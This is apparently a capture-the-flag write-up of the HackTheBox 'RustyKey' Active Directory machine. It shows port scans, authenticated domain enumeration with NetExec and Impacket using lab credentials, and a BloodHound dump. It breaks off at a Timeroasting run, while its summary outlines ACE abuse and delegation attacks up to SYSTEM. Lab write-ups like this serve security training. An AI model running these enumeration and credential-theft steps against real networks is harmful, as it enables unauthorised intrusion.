






## Table of Contents

- [Summary](#Summary)
    - [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Synchronize Time and Date](#Synchronize-Time-and-Date)
    - [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Privilege Escalation to IT-COMPUTER3](#Privilege-Escalation-to-IT-COMPUTER3)
    - [Timeroasting](#Timeroasting)
    - [Cracking the Hashes](#Cracking-the-Hashes)
- [Access Control Entry (ACE) AddSelf Abuse](#Access-Control-Entry-ACE-AddSelf-Abuse)
- [Foothold](#Foothold)
- [Privilege Escalation to BB.MORGAN](#Privilege-Escalation-to-BBMORGAN)
    - [Access Control Entry (ACE) ForceChangePassword Abuse Part 1](#Access-Control-Entry-ACE-ForceChangePassword-Abuse-Part-1)
- [user.txt](#usertxt)
- [Enumeration (BB.MORGAN)](#Enumeration-BBMORGAN)
- [Privilege Escalation to EE.REED](#Privilege-Escalation-to-EEREED)
    - [Access Control Entry (ACE) ForceChangePassword Abuse Part 2](#Access-Control-Entry-ACE-ForceChangePassword-Abuse-Part-2)
- [Enumeration (EE.REED)](#Enumeration-EEREED)
- [Privilege Escalation (MM.TURNER)](#Privilege-Escalation-MMTURNER)
    - [DCOM Lateral Movement](#DCOM-Lateral-Movement)
- [Enumeration (MM.TURNER)](#Enumeration-MMTURNER)
- [Privilege Escalation to BACKUPADMIN / SYSTEM](#Privilege-Escalation-to-BACKUPADMIN-SYSTEM)
    - [Access Control Entry (ACE) AddAllowedToAct Abuse / Resource Based Constrained Delegation (RBCD)](#Access-Control-Entry-ACE-AddAllowedToAct-Abuse-Resource-Based-Constrained-Delegation-RBCD)
- [root.txt](#roottxt)

## Summary

The box starts with using the given `credentials` of `rr.parker` which allows to `dump` the `configuration` of the `Active Directory`. This gives insights to an unusual amount of available `computer objects` within the `Domain`. This indicator leads to a attack called `Timeroasting`. After retrieving the `password` for a `computer object` that has assigned the `Access Control Entry (ACE)` of `AddSelf` to the group `HELPDESK`. This can be abused to perform a `Privilege Escalation` to the user `bb.morgan` which holds the `user.txt` and grants `Foothold` on the box by abusing the `ForceChangePassword` permissions set on various objects. From there on another `escalation` of `privileges` is necessary by performing the same steps as before to move to the user `ee.reed` which is also a member of the `SUPPORT` group. Being member of this group allows to leverage `7-Zip` for `Lateral Movement` via `DCOM` to the user `MM.TURNER`. This user has crucial permissions granted like `AddAllowedToAct` on the `Domain Controller` through the group of `DELEGATIONMANAGER`. This allows the user to `impersonate` the `Backupadmin` user by using the same `computer object` as in the beginning through `Resource Based Constrained Delegation` and gives a shell as `NT Authority\SYSTEM`.

### Introduction

As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: `rr.parker / 8#t5HE8L!W3A`

## Reconnaissance

### Port Scanning

The initial `port scan` using `Nmap` showed us the typical and expected ports open for a `Domain Controller`. However, the first scan seemed a bit "cut off" for which er also performed an `all port scan` as well as a `UDP scan` just to be sure nothing overlooking right at the beginning.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.104.184
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 21:02 CEST
Nmap scan report for 10.129.104.184
Host is up (0.029s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 03:02:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-29T03:02:38
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.01 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.104.184
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 21:03 CEST
Nmap scan report for 10.129.104.184
Host is up (0.023s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 03:03:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=6/28%Time=68603C93%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-29T03:04:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.45 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.104.184
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 21:05 CEST
Nmap scan report for rustykey.htb (10.129.104.184)
Host is up (0.056s latency).
Not shown: 974 closed udp ports (port-unreach)
PORT      STATE         SERVICE      VERSION
53/udp    open          domain       Simple DNS Plus
88/udp    open          kerberos-sec Microsoft Windows Kerberos (server time: 2025-06-29 03:17:32Z)
123/udp   open          ntp          NTP v3
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
389/udp   open          ldap         Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
464/udp   open|filtered kpasswd5
500/udp   open|filtered isakmp
4500/udp  open|filtered nat-t-ike
5353/udp  open|filtered zeroconf
5355/udp  open|filtered llmnr
59846/udp open|filtered unknown
60172/udp open|filtered unknown
60381/udp open|filtered unknown
60423/udp open|filtered unknown
61024/udp open|filtered unknown
61142/udp open|filtered unknown
61319/udp open|filtered unknown
61322/udp open|filtered unknown
61370/udp open|filtered unknown
61412/udp open|filtered unknown
61481/udp open|filtered unknown
61550/udp open|filtered unknown
61685/udp open|filtered unknown
61961/udp open|filtered unknown
62154/udp open|filtered unknown
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30248.43 seconds
```

### Domain Enumeration

Then we started an `authenticated` approach for `Domain Enumeration` using `enum4linux-ng` to have a quick but detailed output to add to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py -u 'rr.parker' -p '8#t5HE8L!W3A' 10.129.104.184
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.104.184
[*] Username ......... 'rr.parker'
[*] Random Username .. 'nysubypa'
[*] Password ......... '8#t5HE8L!W3A'
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.104.184    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.104.184    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: rustykey.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.104.184    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.104.184    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.104.184    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[-] Could not enumerate domain information via unauthenticated SMB
[*] Enumerating via unauthenticated SMB session on 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    RPC Session Check on 10.129.104.184    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_NOT_SUPPORTED
[*] Check for user session
[-] Could not establish user session: STATUS_NOT_SUPPORTED
[*] Check for random user
[-] Could not establish random user session: STATUS_NOT_SUPPORTED
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 10.129.104.184    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: unknown                                                                                                                                                                                                                                 
OS version: not supported                                                                                                                                                                                                                   
OS release: null                                                                                                                                                                                                                            
OS build: null                                                                                                                                                                                                                              
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 10.58 seconds
```

The name of the `Domain Controller` was not clear at this point but we added `rustykey.htb` to our `/etc/hosts` file and moved on.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.104.184  rustykey.htb
```

### Enumeration of Port 445/TCP

When we first started having a look at port `445/TCP` we noticed some unusual error messages. A quick research showed an explanation to this.

- [https://github.com/jborean93/smbprotocol/issues/72](https://github.com/jborean93/smbprotocol/issues/72)

### Synchronize Time and Date

In order to deal with `Kerberos Authentication` only we synced our `Time and Date` with the `Domain Controller` and used the `-k` flag on `NetExec`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.104.184
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ netexec ldap 10.129.104.184 -u 'rr.parker' -p '8#t5HE8L!W3A' -k
LDAP        10.129.104.184  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.104.184  389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A
```

After that we were able to actually access the `SMB Share` on port `445/TCP` which unluckily for us, didn't helped us at all.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ impacket-smbclient -k -target-ip 10.129.104.184 -dc-ip 10.129.104.184 dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
#
```

```shell
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
```

### Active Directory Enumeration

In preparation for tooling later in the box we were setting up a `Kerberos Realm` within the `/etc/krb5.conf` for the domain `rustykey.htb` specifying the name for the `Domain Controller` after we verified it using the `--dc-list` option in `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ netexec ldap 10.129.104.184 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --dc-list
LDAP        10.129.104.184  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.104.184  389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
LDAP        10.129.104.184  389    DC               dc.rustykey.htb = 10.129.104.184
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = RUSTYKEY.HTB
        dns_lookup_realm = false
        #dns_lookup_kdc = true
        dns_lookup_kdc = false
<--- CUT FOR BREVITY --->
[realms]
        RUSTYKEY.HTB = {
                kdc = dc.rustykey.htb
                admin_server = dc.rustykey.htb
                default_domain = rustykey.htb
        }
<--- CUT FOR BREVITY --->
[domain_realm]
        .rustykey.htb = RUSTYKEY.HTB
        rustykey.htb = RUSTYKEY.HTB
```

Of course we added `dc.rustykey.htb` to our `/etc/hosts` file as well.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.104.184  rustykey.htb
10.129.104.184  dc.rustykey.htb
```

Then we dumped the `configuration` of the `Active Directory` using the `--bloodhound` option of `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ netexec ldap 10.129.104.184 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --bloodhound -d rustykey.htb --dns-server 10.129.104.184 -c all
LDAP        10.129.104.184  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.104.184  389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
LDAP        10.129.104.184  389    DC               Resolved collection methods: psremote, session, trusts, dcom, acl, objectprops, localadmin, group, container, rdp
LDAP        10.129.104.184  389    DC               Using kerberos auth without ccache, getting TGT
LDAP        10.129.104.184  389    DC               Done in 00M 11S
LDAP        10.129.104.184  389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.129.104.184_2025-06-29_053059_bloodhound.zip
```

We as well enumerated all available `users` moving on with the use of `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ netexec ldap 10.129.104.184 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --users
LDAP        10.129.104.184  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.104.184  389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
LDAP        10.129.104.184  389    DC               [*] Enumerated 11 domain users: rustykey.htb
LDAP        10.129.104.184  389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.129.104.184  389    DC               Administrator                 2025-06-05 00:52:22 0        Built-in account for administering the computer/domain      
LDAP        10.129.104.184  389    DC               Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.129.104.184  389    DC               krbtgt                        2024-12-27 01:53:40 0        Key Distribution Center Service Account                     
LDAP        10.129.104.184  389    DC               rr.parker                     2025-06-05 00:54:15 0                                                                    
LDAP        10.129.104.184  389    DC               mm.turner                     2024-12-27 11:18:39 0                                                                    
LDAP        10.129.104.184  389    DC               bb.morgan                     2025-06-29 05:16:40 0                                                                    
LDAP        10.129.104.184  389    DC               gg.anderson                   2025-06-29 05:16:40 0                                                                    
LDAP        10.129.104.184  389    DC               dd.ali                        2025-06-29 05:16:40 0                                                                    
LDAP        10.129.104.184  389    DC               ee.reed                       2025-06-29 05:16:40 0                                                                    
LDAP        10.129.104.184  389    DC               nn.marcos                     2024-12-27 12:34:50 0                                                                    
LDAP        10.129.104.184  389    DC               backupadmin                   2024-12-30 01:30:18 0
```

As next step we had a closer look at the available `computers` in the environment which were an unusual and unexpected amount for a box like this.

```shell
┌──(kali㉿kali)-[/media/…/Machines/RustyKey/files/render_rustykey]
└─$ netexec ldap 10.129.104.184 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --computers
LDAP        10.129.104.184  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.104.184  389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
LDAP        10.129.104.184  389    DC               [*] Total records returned: 16
LDAP        10.129.104.184  389    DC               DC$
LDAP        10.129.104.184  389    DC               Support-Computer1$
LDAP        10.129.104.184  389    DC               Support-Computer2$
LDAP        10.129.104.184  389    DC               Support-Computer3$
LDAP        10.129.104.184  389    DC               Support-Computer4$
LDAP        10.129.104.184  389    DC               Support-Computer5$
LDAP        10.129.104.184  389    DC               Finance-Computer1$
LDAP        10.129.104.184  389    DC               Finance-Computer2$
LDAP        10.129.104.184  389    DC               Finance-Computer3$
LDAP        10.129.104.184  389    DC               Finance-Computer4$
LDAP        10.129.104.184  389    DC               Finance-Computer5$
LDAP        10.129.104.184  389    DC               IT-Computer1$
LDAP        10.129.104.184  389    DC               IT-Computer2$
LDAP        10.129.104.184  389    DC               IT-Computer3$
LDAP        10.129.104.184  389    DC               IT-Computer4$
LDAP        10.129.104.184  389    DC               IT-Computer5$
```

While we were in the process of testing the capabilities of the user we had and the ones the box offered to us, we grabbed a `Kerberos Ticket` for `rr.parker` and checked the `Machine Account Quota` just because of the amount of `computer objects` we found before.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ impacket-getTGT rustykey.htb/rr.parker:'8#t5HE8L!W3A'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in rr.parker.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ export KRB5CCNAME=rr.parker.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ klist                                                                                                                                               
Ticket cache: FILE:rr.parker.ccache
Default principal: rr.parker@RUSTYKEY.HTB

Valid starting       Expires              Service principal
06/29/2025 05:47:59  06/29/2025 15:47:59  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 06/30/2025 05:47:58
```

At this point we found out that the `Default` of `10` was set to `0`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ netexec ldap 10.129.104.184 --use-kcache -M maq
LDAP        10.129.104.184  389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.129.104.184  389    DC               [+] rustykey.htb\rr.parker from ccache 
MAQ         10.129.104.184  389    DC               [*] Getting the MachineAccountQuota
MAQ         10.129.104.184  389    DC               MachineAccountQuota: 0
```

## Privilege Escalation to IT-COMPUTER3

### Timeroasting

Within `BloodHound` we moved our way through each of the `Computer Objects` until we found out that `IT-COMPUTER3` had `AddSelf` permissions set onto `HELPDESK`, found in the `Outbound Object Controls`.



After a bit of research we found an attack vector not often seen on CTFs called `Timeroasting`.

- [https://medium.com/@offsecdeer/targeted-timeroasting-stealing-user-hashes-with-ntp-b75c1f71b9ac](https://medium.com/@offsecdeer/targeted-timeroasting-stealing-user-hashes-with-ntp-b75c1f71b9ac)
- [https://github.com/SecuraBV/Timeroast](https://github.com/SecuraBV/Timeroast)
- [https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-roasting-timeroasting/](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-roasting-timeroasting/)

As we were already in luck, `NetExec` just published a `module` for it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/RustyKey/files]
└─$ netexec smb 10.129.104.184 --use-kcache -M timeroast
SMB         10.129.104.184  445    10.129.104.184   [*]  x64 (name:10.129.104.184) (domain:10.129.104.184) (signing:True) (SMBv1:False) (NTLM:False)
